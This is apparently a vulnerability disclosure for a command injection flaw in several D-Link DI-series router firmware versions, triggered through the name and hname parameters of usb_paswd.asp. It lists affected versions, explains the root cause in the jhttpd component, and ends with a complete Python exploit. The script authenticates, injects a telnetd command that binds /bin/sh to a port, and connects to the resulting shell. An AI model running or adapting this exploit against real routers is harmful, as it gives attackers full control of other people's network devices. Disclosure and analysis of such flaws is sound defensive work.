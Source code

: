 **Vendor of the products:** D-Link

**Affected Device:** D-Link DI-8100、DI-8100G、DI-8200、DI-8200G、DI-8003、DI-8003G

**Version:** DI_8100-16.07.26A1

DI_8100G-17.12.20A1

DI_8200-16.07.26A1

DI_8200G-17.12.20A1

DI_8003-16.07.26A1

DI_8003G-19.12.10A1

**Firmware Download:** http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DI-8100

http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DI-8100G

http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DI-8200

http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DI-8200G

http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DI-8003

http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DI-8003G

**Vulnerability Description:** A command injection vulnerability was discovered in D-Link DI_8100-16.07.26A1、DI_8100G-17.12.20A1、DI_8200-16.07.26A1、DI_8200G-17.12.20A1、DI_8003-16.07.26A1 and DI_8003G-19.12.10A1, triggered by the name and hname parameters in usb_paswd.asp. Attackers can exploit this vulnerability by crafting malicious packets to execute arbitrary commands, thereby gaining full control of the target device.



# POC:

**Functional interface:**

![img](assets/wps1.jpg) 

**request1：**

![img](assets/wps2.jpg) 

**request2:**

![img](assets/wps3.jpg) 

# Vulnerability Effect:

It can be observed that the router receives the request and successfully executes the command. The attacker can execute arbitrary commands.

![img](assets/wps4.jpg) 

![img](assets/wps5.jpg) 

# Vulnerability Cause:

The issue resides in the jhttpd component. In jhttpd, the program invokes the sub_4621DC function to handle requests related to usb_paswd.asp. The program first retrieves the user-input parameters name and hname via httpd_get_parm.

![img](assets/wps6.jpg) 

Next, the program uses nvram_set to set the values of usb_username and usb_husername to the parameters v5 and v7 input by the user from the frontend. Subsequently, the program retrieves the values of the usb_username and usb_husername fields from NVRAM via the jhl_nv_get_def function. These values are concatenated using the sprintf function and directly passed to the system function for execution. Since no security checks are performed during this process, it leads to a command injection vulnerability. Attackers can execute arbitrary commands and fully control the device by constructing malicious parameters.

![img](assets/wps7.jpg) 

For DI_8100、DI-8200 and DI-8003 16.07.26A1 , only the "name" (field/parameter) can trigger this vulnerability.

![image-20250904144832955](assets/image-20250904144832955.png)

# EXP:



```python
#!/usr/bin/env python3
import requests
import re
import os
import time
import argparse
from urllib.parse import quote
from getpass import getpass

requests.packages.urllib3.disable_warnings()

def parse_args():
    """Parse command-line arguments"""
    parser = argparse.ArgumentParser(description='D-link Exploit POC')
    parser.add_argument('-i', '--ip', default='192.168.0.1',
                       help='Target IP address (default: 192.168.0.1)')
    parser.add_argument('-u', '--username', default='admin',
                       help='Username (default: admin)')
    parser.add_argument('-p', '--password',
                       help='Password (will prompt if not provided)')
    parser.add_argument('-P', '--port', type=int, default=80,
                       help='HTTP port (default: 80)')
    parser.add_argument('-t', '--telnet-port', type=int, default=333,
                       help='Telnet port to open (default: 333)')
    return parser.parse_args()

def get_password(args):
    """Get password securely"""
    if args.password:
        return args.password
    return getpass(f"Enter password for {args.username} (default: admin): ") or "admin"

def build_url(ip, port, path):
    """Construct full URL"""
    return f"http://{ip}:{port}{path}"

def login(args):
    """Authenticate and get session cookies"""
    url = build_url(args.ip, args.port, "/login.cgi")
    headers = {
        "Host": f"{args.ip}:{args.port}",
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:139.0) Gecko/20100101 Firefox/139.0",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
        "Content-Type": "application/x-www-form-urlencoded",
        "Connection": "keep-alive",
    }

    data = {
        "user": args.username,
        "password": args.password
    }

    try:
        response = requests.post(url, headers=headers, data=data, verify=False)
        print(f"\n[+] Login Status: {response.status_code}")
        
        cookies = response.cookies.get_dict()
        if 'Set-Cookie' in response.headers:
            gw_cookie = re.search(r'gw_userid=([^;]+)', response.headers['Set-Cookie'])
            if gw_cookie:
                cookies['gw_userid'] = gw_cookie.group(1)
        return cookies
        
    except Exception as e:
        print(f"[-] Login failed: {str(e)}")
        return None

def execute_command(args, cookies):
    """Exploit command injection"""
    command = f"$(telnetd%20-l%20/bin/sh%20-p%20{args.telnet_port})"
    url = build_url(args.ip, args.port, f"/usb_paswd.asp?share_enable=1&hname={command}&passwd=")
    

    headers = {
        "Host": f"{args.ip}:{args.port}",
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:139.0) Gecko/20100101 Firefox/139.0",
        "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
        "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
        "Accept-Encoding": "gzip, deflate, br",
        "Connection": "keep-alive",
        "Cookie": f"userid={args.username}; gw_userid={cookies.get('gw_userid', '')}",
        "Upgrade-Insecure-Requests": "1",
        "Priority": "u=0, i"
    }

    try:
        print(f"\n[+] Sending exploit request: {url}")
        response = requests.get(url, headers=headers, verify=False, allow_redirects=False)
        
        print(f"[+] Exploit status: {response.status_code}")
        if response.headers.get('Set-Cookie'):
            print(f"[+] Response Set-Cookie: {response.headers.get('Set-Cookie')}")
        
        return True
    except Exception as e:
        print(f"[-] Exploit failed: {str(e)}")
        return False

def connect_telnet(ip, port):
    """Establish telnet connection"""
    print(f"\n[+] Attempting to connect via telnet to {ip}:{port}...")
    print("[+] If connection fails, try manually:")
    print(f"    telnet {ip} {port}")
    time.sleep(2)
    os.system(f"telnet {ip} {port}")

def main():
    args = parse_args()
    args.password = get_password(args)

    print(f"\n[+] Target: {args.ip}:{args.port}")
    print(f"[+] Credentials: {args.username}:{'*' * len(args.password)}")
    print(f"[+] Will open telnet on port: {args.telnet_port}")

    cookies = login(args)
    if not cookies:
        return

    if execute_command(args, cookies):
        connect_telnet(args.ip, args.telnet_port)

if __name__ == "__main__":
    main()
```



 

 

 

 